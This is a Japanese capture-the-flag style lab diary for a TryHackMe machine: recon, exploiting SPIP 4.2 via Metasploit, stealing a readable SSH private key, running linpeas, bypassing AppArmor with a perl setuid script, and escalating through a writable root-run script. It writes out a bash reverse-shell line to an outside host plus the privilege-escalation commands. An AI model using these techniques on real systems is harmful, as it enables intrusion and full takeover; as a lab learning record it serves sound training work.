pingで疎通確認を行う

生きていることが確認できたのでnmapしてみる

port 22とport 80が空いている
80(HTTP)が開いていたのでブラウザからアクセスしてみる
burpsuiteを起動する

「next」をクリック

「Start Burp」をクリック

「proxy」「intercept」「open browser」

エラーが出まくる死ぬ

なんか「OK」押したら立ち上がったのでipアドレスを入力してみる

課業終了時間なので帰ります
出勤しました
attackboxではなく
openvpnから接続を試みた

画像のようにpingは反応しないがnmapで2つのポートが確認できた
ブラウザからも同様にhttpページにアクセスすることができた
Webページには特に怪しい箇所が見つけられなかったため、
ディレクトリブルートフォースを試みる

今回はferoxbusterを採用した

結果（とても長い）を見ると/spipディレクトリが大量に200ヒットしていることが分かる
実際/spipだけ解析速度が96/sと非常に時間がかかっていることが画像からも分かる
いったんhttp://[ip address]/spipを見てみる

/spip以下が存在していることが分かる。ブログのようだ
というかトップページを改めて見てみると「spip」という文字列が大量にあることに気づく
絶対ここを突く問題だろこれ
「spip exploit」で検索する

いくつか検索したがこのページにpythonコードが乗っていてそのまま使えそうだった

コメントアウトを読むと4.2のバージョンだと使えるらしい
この問題のサイトはどのバージョンのspipを使っているのだろう

aiに聞いてwhatwebというものを試してみたがspipのバージョン情報は得られず。
ubuntuでapacheを建てているということは分かった
-vは冗長スキャンをするためのオプション
他の方法をaiに聞いたところwappalyzerという拡張機能をおすすめされた
webページがどのような技術で構成するかを自動スキャンしてくれる

spipのページで今入れた拡張機能を試したところspipのバージョンは4.2であることがわかった
先ほど確認した脆弱性で示されていたバージョンと一致している

コードがあるけど使い方が分からないので少しの中身を読むと3つのオプションが示されていた
-uはURLでありrequiredとなっているので必須オプションかもしれない
-cもrequiredだがこれはなんのコマンドを入れたらよいだろうか
-vは冗長性モードのようだがデフォルトではオフになっている
とりあえず
python3 exploit.py -u http://123.456.789.123 -c "whoami"
を実行してみる

エラーが出た
どうやら1つのモジュールが正しい属性を持っていないようだった
エクスプロイトコード自体に落ち度がありそうなのでこれを解決するのは諦めて別の方法を探す

metasploitでspip関係のモジュールがないか探してみる

5つのモジュールがヒットした
ここからどのモジュールを選ぶかを考える
判断基準としてはrankが高いもの、そして日時ができるだけ新しいものを選ぶとよい
またtryhackmeやGPEN試験などのラボ環境であれば総当たり的に試すこともできるが
実際の侵入試験ではよく吟味した上で1つを選ぶ必要がある（by 横山曹長）

google検索してみるとspip未認証RCEへのモジュールに関する解説記事がヒットした


saisiesプラグインが有効かどうかを確認する
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl -I http://10.48.155.207
HTTP/1.1 200 OK
Date: Fri, 17 Apr 2026 02:17:14 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 20 Dec 2023 19:05:25 GMT
ETag: "21ee-60cf5aa5ef7f4"
Accept-Ranges: bytes
Content-Length: 8686
Vary: Accept-Encoding
Content-Type: text/html
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl -I http://10.48.155.207/spip
HTTP/1.1 301 Moved Permanently
Date: Fri, 17 Apr 2026 02:17:24 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://10.48.155.207/spip/
Content-Type: text/html; charset=iso-8859-1
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
aiに少し聞くと/spip/local/config.txtを調べるとよいと言われたので調べてみた
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl -I http://10.48.155.207/spip/?page=plan
HTTP/1.1 200 OK
Date: Fri, 17 Apr 2026 02:21:48 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Cookie,Accept-Encoding
Composed-By: SPIP 4.2.0 @ www.spip.net + http://10.48.155.207/spip/local/config.txt
Link: <http://10.48.155.207/spip/local/cache-css/186efc0a84a22eb9013d6317019d6fbe.css?1776385516>;rel="preload";as="style";
X-Spip-Cache: 86400
Last-Modified: Fri, 17 Apr 2026 02:21:48 GMT
Connection: close
Content-Type: text/html; charset=utf-8
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl -I http://10.48.155.207/spip/local/config.txt
HTTP/1.1 200 OK
Date: Fri, 17 Apr 2026 02:21:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 20 Dec 2023 19:05:16 GMT
ETag: "1af-60cf5a9df683a"
Accept-Ranges: bytes
Content-Length: 431
Vary: Accept-Encoding
Content-Type: text/plain
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.155.207/spip/local/config.txt
Composed-By: SPIP @ www.spip.net + spip(4.2.0),aide(3.1.0),archiviste(2.2.0),compagnon(3.1.0),dump(2.1.0),images(4.1.0),forum(3.1.0),mediabox(3.1.0),mots(4.1.0),plan(4.1.0),porte_plume(3.1.1),revisions(3.1.0),safehtml(3.1.0),sites(4.1.0),stats(3.1.1),tw(3.1.1),urls(4.1.0),iterateurs(1.0.6),queue(0.6.8),jquery(3.6.3),csstidy(1.15.1),minidoc(1.0.3),ordoc(1.1.2),mejs(4.2.7),bigup(3.2.1),compresseur(2.1.1),medias(4.1.0),svp(3.1.1)
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
構成要素をまとめているconfigページにはsaisiesプラグインを利用している痕跡は見られなかった
ということで、いったんこの2025年リリースのモジュールは候補から外すこととする

休憩してきます
休憩終わり

それでは残りの4候補から実行モジュールを決めたいと思う
当該ページを再度見直す。
非常にメタいが画面左側のアーカイブ欄を見ると2023年秋からこのサイトの記事が更新されていることが分かる
そのため、このサイト自体は2023年に作られたものではないかと予想する
それが先ほど確認したspip4.2がリリースされた時期であるものと推測する（確認作業未実施）
その場合、その2023年付近にリリースされたmetasploitのモジュールはこのバージョンに対する脆弱性を突いたものである可能性が高いものと推測する

ということで5番目のものを実行する
（モジュール名もよく見たらRCEのものらしいのでやりたいことに一致してそう）
msf > use 16
[-] The supplied module name is ambiguous: uninitialized constant HTTP.
msf > use exploit/multi/http/spip_rce_form
[-] The supplied module name is ambiguous: uninitialized constant HTTP.
モジュールを指定しようとしたらエラーが出たのでaiに聞いて reload_all を実施する


改めて実行したところモジュールを指定することができた
Requiredの設定項目がいくつかあるのでそれを設定していく
まず自分のipアドレスを確認する

docker0はDockerコンテナ用の仮想ネットワーク。tryhackmeには使わない
eth0はPCやVMの普通のネットワーク
tun0はVPNのトンネル。tryhackmeのターゲットはvpnネットワーク上にいるので逆シェルの戻り先はtun0とする

RHOSTはtryhackme上のtarget ip adress
RPORTはhttpの80番ポート
LHOSTは先ほど確認したtun0
LPORTはデフォルトのままにする
TARGETURIはHTTP系モジュールで狙うサイト内のパスを指定するもの。今回であれば/spip/を指定する
wappalyzerでウェブサイトを構成する技術を調べた際に
トップページではspipが確認できなかったが
/spip/では確認できたため。

設定したものを確認する

確認できたので実行してみる

meterpreter> を出せた！（うれしい）
しかし shell と打ち込んで以降しばらくかたまっている
claudeの指示にしたがってEnterを押下しても反応がない
いちど Ctrl+C で戻る

かたまったと思っていたがコマンドを打ち込んだら返事があったので
すでにshellを起動できていたようだった
pwd の実行結果を見ると home/think/spip/spipとあるのでthinkという名前のユーザーがいるようだ

user.txt を見つけた
続いてroot flagを探す

今現在は www-data でログインしているようだ
rootという弱いパスワードでrootになれるか試したが失敗した

改めてファイルを確認するとuser.txtと同じ階層にsshに関するディレクトリがある
はじめnmapしたときにこのターゲット端末はhttpとsshがopenになっていたことを思い出すと
これを使って端末に入る方法があるんじゃないかという仮定を立てることができる
（できるか〜！）

ファイルの権限をみるとrootでなくても中身が読めるようになってしまっている
id_rsaは秘密鍵
id_rsa.pubは公開鍵
authorized_keysは認証リスト
本来の手順を確認しておくと
1 thinkさんの家で秘密鍵と公開鍵をgenerateする
2 公開鍵をサーバーのauthorized_keysに登録する
3 thinkさんがsshで接続したいと要求する
4 サーバーがauthorized_keysのリストの中にある公開鍵のどれかに対応する秘密鍵を持っているか尋ねる
5 thinkさんが対応する秘密鍵でそれを証明する
6 認証完了
なので3つ全部ここにあるのはおかしい
ということで秘密鍵をもらっていく
kaliのローカルで/tryhackme/publisherというディレクトリを作成した

実際に接続していく


「お前の鍵やばすぎ」とのことで断られてしまった。こんな機能あるのかすごいな。

chmod 600 id_rsaでパーミッションを振りなおしたところssh接続に成功した
現在はthinkユーザーであるためrootに昇格することを考える
天下り的にここはlinpeas.shを使うことを考える
Linux Privilege Escalation Awesome Script
Linuxで権限昇格できる穴を自動で探してくれるスクリプト
これをローカルkaliで落として、ssh先に運ぶ
scpを使うやり方とpythonでサーバーを立てて向こうでwgetするやり方があるが
今回は後者でやってみる
2つは使うプロトコルが違う。
前者はsshプロトコルで運んでくる
後者はhttpプロトコルで運んでくる
wgetはだいたいのホストができる操作なのでカバー範囲が広い

それではまずlinpeas.shをとってくる

helpオプションで場所を確認した

使うものだけど作業ディレクトリに移動させた

作業ディレクトリにてサーバーを立てた

ssh先からwgetを実施したがエラーとなった
linpeas.shのダウンロードには成功したがそれをカレントディレクトリに書き込めなかったというエラー
そこでつぎのコマンドから書き込みができるディレクトリを探す
find / -type d -perm -0002 -print 2>/dev/null
find / はルート直下から探せ
-type d はディレクトリだけを探せ
-perm -0002はothersがwriteできるものを探せ→他人が書き込めるもの
-printは結果を出力しろ
2>/dev/nullはエラーは出力するな

実施結果はこのようになった
/tmpや/var/tmpがヒットしている
tmpはたいてい権限が1777であり揮発性も高い
/tmp 再起動で消える
/var/tmp 再起動で消えない
tmpはnoexecでマウントされており書き込めるけど実行できない場合もある（今回は大丈夫）
では実際に/var/tmpに移動して再度試みる

wgetすることができた

実行権限を付与する
実行した
テキストファイルも保存されている
つぎはssh先からkaliにこのテキストファイルを送りたいのでncを使う
まずpythonサーバーを立てている作業ディレクトリにncをもってきた
つぎssh先でこのncをwgetします
そしてkali側で口を開けて待ちます
ssh先でncを実行しkaliの10000番ポートに投げます
しばらくしたらctrl+Cで抜けます
中身をlessで確認します
かわいい
qで抜けられます
赤+黄色の背景 → 最優先、権限昇格できる可能性が高い
赤字 → 要注意
黄色 → 確認推奨
緑 → 一般情報、基本スキップ
解析結果のすべてを読む必要はない
退勤します
出勤しました
引き続きless -R output.txtにて中身を見ていきます
権限昇格を考えるときに調べる優先順位
sudo -l ← まず最初に確認。設定ミスが多い
SUID SGID ← GTFOBinsで一発解決することが多い
クレデンシャル ← 意外と平文で残っていることが多い
Cronジョブ ← 書き込み可能スクリプトがあれば確実
書き込み可能ファイル ← /etc/passwdが甘いと即終わり
カーネルversion ← 最終手段
この優先順位にしたがって調べてみる
/を打つことで文字列検索ができる
収穫を得られず
つづいてSUIDを調べる
nを押下することで文字列検索の複数ヒットを巡ることができる
それらしき部分に来たがすべて赤文字でどれが発見事項なのかまるで分からない
AIに尋ねると次の部分を調べるとよいとのことだった
Unknown SUID binaryの表示はバイナリがシステム標準ではなく人為的に作られたカスタムバイナリであることを示す
ちなみにpkexecのCVEはrabbit hole（ダミーの脆弱性）
ではthink@[target ip]に接続してこの/usr/sbin/run_containerを実行していく
なにかの入力を求められた
何も入力せずEnterを押してみる
どうやら/opt/run_container.shを実行しているらしいことが分かった
正しいidを入力できればline 16のエラーも取れるのだろうか
いったん 5) Quitする
抜けた
つまりこのrun_container.shはroot実行されるスクリプトである
ls -laしてみると権限がすべて付与されていたのでこれを書き換えればよいのだ
コードの中身を読んだがまったく分からない
まあ普通にリバースシェルの1行だけ書き込む
謎の力が働いて保存に失敗しました
backup fileが作れない！とエラー文で言っているのでbackupが保存される場所を探します
tmpと出ました。
echoから直接書き込む方法を試します
echo 'bash -i >& /dev/tcp/192.168.205.211/4444 0>&1' >> /opt/run_container.sh
実行したところ拒否されました。ありえない状況すぎます。
てかashってだれやねん
bashに切り替えてやったけどダメだ
WriteUpにしたがって、ここでセキュリティソフトウェアの存在を疑ってみましょう
linpeasの出力結果でprotectionsで検索すれば該当項目が見つけられます
まずAppArmorの設定ファイルは/etc/apparmor.d/を見ればよい
しかしここにはいくつかのファイルがありどれを見ればよいか分かりづらい
ここでAppArmor profile?に注目します
/usr/sbin/ashとの表記があるのでここにprofile？というか設定ファイルがあるものと推測します
ではcatで覗きます
tmpに書き込み制限のルールがありました
エラーが原因がわかりましたね
ただしこのファイルはrootでないと編集ができません
（とても色々調べているが難しい）
apparmorのエクスプロイトを試みます
まずversionを知りたい
これで調べてみましょう
これを試します
cat <<'EOF' > /var/tmp/test.pl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
EOF
fileを作成したら権限を与えて
chmod +x /tmp/test.pl
実行する
/tmp/test.pl
ふと、apparmorプロファイルが消せるか試したがダメだった
なんでこれはいけるんだ。。。（これはwriteupにあったコードでありこのコード自体はもう消されているのでこれは使いたくない）
調べてみるとここに**がないので
/var/tmp自体への書き込みはdenyされているが
/var/tmp直下への書き込みはできるらしい
あともうひとつ
catを使うほうはtemp fileを作成する仕様があることがわかった
tmpファイルを許可がおりてない場所に置こうとしてしまうのでエラーが発生してしまう
これを回避するのがechoを使うやりかただ
AIに助けて得てechoを用いるやり方で書き換えた
では改めて
fileを作成したら権限を与えて
chmod +x /var/tmp/test.pl
実行する
/var/tmp/test.pl
なんかでたー（うれしい！）
失礼。これはまだrootになっていないようでした
今はthinkから権限昇格できたのではなく
apparmorの外に出ることが出来ている状態です
ですのでvimで保存できなかったrun_container.shを編集することができます
編集完了
口を開けます
いけたか？
あれー？
原因を調べたところ
bashが-pオプションなしだとSUIDをリセットするとのことだった（じゃあ意味なくね）
ということでそのオプションだけをvimでつけた
実行してみる
いけないようだった
reverse shellを諦めて
bash -pを追記した
これでbashをSUID権限で実行する
そういえば最初からこれでやればよかったのでは？
なんでreverse shellやろうとしてたんだっけ？
普通に入れて普通に終わりました